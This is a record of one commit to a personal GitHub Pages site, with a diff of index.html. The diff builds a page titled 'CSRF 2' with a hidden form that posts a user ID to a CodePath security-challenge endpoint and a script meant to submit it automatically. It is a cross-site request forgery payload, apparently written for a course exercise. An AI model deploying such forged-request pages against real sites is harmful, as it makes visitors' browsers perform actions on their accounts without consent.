

Before and after one commit to sarcox/sarcox.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,10 @@
-
+<html>
+    <head><title>CSRF 2</title></head>
+    <script> document.csrForm.submit(); </script>
+    <body>
+        <h1>Latest Chanages - Form /h1>
 <form name="csrForm"  action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
     <input type="hidden" name="userId" value="fed0a52b4971018b7f153c63b1969f6481a1990"/>
     <input type="submit"/>
 </form>
+    </body>
```
